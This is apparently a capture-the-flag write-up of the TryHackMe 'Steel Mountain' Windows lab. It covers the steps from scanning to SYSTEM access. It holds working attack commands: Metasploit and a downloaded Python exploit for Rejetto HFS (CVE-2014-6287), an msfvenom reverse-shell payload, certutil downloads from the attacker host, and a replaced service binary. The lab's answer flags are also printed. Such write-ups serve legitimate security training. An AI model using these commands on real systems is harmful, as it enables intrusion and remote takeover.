

# THM - Steel Mountain

<br>

## Task 1

### Task 1.1

http://10.10.99.166/



> Bill Harper

<br>

## Task 2

### Task 2.1

```shell
mkdir scans
nmap -A -sC 10.10.99.166 -oN scans/nmap_1.txt
```

> 8080

### Task 2.2

http://10.10.99.166:8080/

🧰 https://en.wikipedia.org/wiki/HTTP_File_Server#:~:text=Rejetto%20HTTP%20File%20Server

> Rejetto HTTP File Server

### Task 2.3

```shell
searchsploit HttpFileServer 2.3 -w
```

🧰 https://www.exploit-db.com/exploits/49125

> 2014-6287

### Task 2.4

```shell
msfconsole
	search 2014-6287
	use exploit/windows/http/rejetto_hfs_exec
		show options
		set RHOSTS 10.10.100.38
		set RPORT 8080
		set LHOST 10.14.27.197
		exploit
		
			pwd
			cat C:\\Users\\bill\\Desktop\\user.txt
```

> b04763b6fcf51fcd7c13abc7db4fd365

<br>

## Task 3

### Task 3.1

🧰 https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

(Terminal 1/msfconsole:)
```shell
			cd C:\\Users\\bill\\Desktop
			upload ../../Tools/PowerSploit/Privesc/PowerUp.ps1
			
			load powershell
			powershell_shell
			
				. .\PowerUp.ps1
				Invoke-AllChecks
```

### Task 3.2

> AdvancedSystemCareService9

### Task 3.3

(Terminal 2:)
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.27.197 LPORT=9876 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

(Terminal 1/msfconsole:)
```shell
				^C
			
			background
		back
	use exploit/multi/handler
		show options
		set LHOST 10.14.27.197
		set LPORT 9876
		run -j
		
		sessions
		sessions 1
		
			shell
				sc stop AdvancedSystemCareService9
				exit
			
			upload ASCService.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"
			
			shell
				sc start AdvancedSystemCareService9
				exit
				
			background
		
		sessions
		sessions 2
			whoami
```

### Task 3.4

(Terminal 1/msfconsole:)
```shell
			dir "\root.txt" /s
			type C:\Users\Administrator\Desktop\root.txt
			
			exit
		exit -y
```

> 9af5f314f57607c00fd09803a587db80

<br>

## Task 4

### Task 4.1

🧰 https://www.exploit-db.com/exploits/39161

🧰 https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

🧰 https://gist.githubusercontent.com/Arun89-crypto/eef9fb8370d12e52cf0efa5eb29a7227/raw/3845febafa02253e344503cfcb255b56b83552c7/exploit.py

(Terminal 1:)
```shell
wget https://gist.githubusercontent.com/Arun89-crypto/eef9fb8370d12e52cf0efa5eb29a7227/raw/3845febafa02253e344503cfcb255b56b83552c7/exploit.py -O 39161-mod.py

nano 39161-mod.py
```

(edit:)
```python
# (...)
	ip_addr = "10.14.27.197" #local IP address
	local_port = "9999" # Local Port number
# (...)
```

(Terminal 1/nano:)
```shell
	^X
	y
	^Enter

cp ../../Tools/static-binaries/binaries/windows/x86/ncat.exe ./nc.exe

python3 -m http.server
```

(Terminal 2:)
```shell
nc -lvnp 9999
```

(Terminal 3:)
```shell
python3 39161-mod.py 10.10.100.38 8080

python3 39161-mod.py 10.10.100.38 8080
```

### Task 4.2

(Terminal 2/nc:)
```shell
	powershell -c "Get-Service"
```

> powershell -c "Get-Service"

### Task 4.3

(Terminal 3:)
```shell
cp ../../Tools/PEASS-ng/winPEASx86.exe ./winPEASx86.exe
```

(Terminal 2/nc:)
```shell
	certutil -urlcache -f http://10.14.27.197:8000/winPEASx86.exe winPEASx86.exe
	
	winPEASx86.exe
	
	sc stop AdvancedSystemCareService9
	
	certutil -urlcache -f http://10.14.27.197:8000/ASCService.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"
```

(Terminal 3:)
```shell
nc -lvnp 9876
```

(Terminal 2/nc:)
```shell
	sc start AdvancedSystemCareService9
```

(Terminal 3/nc:)
```shell
	whoami
```

<br>

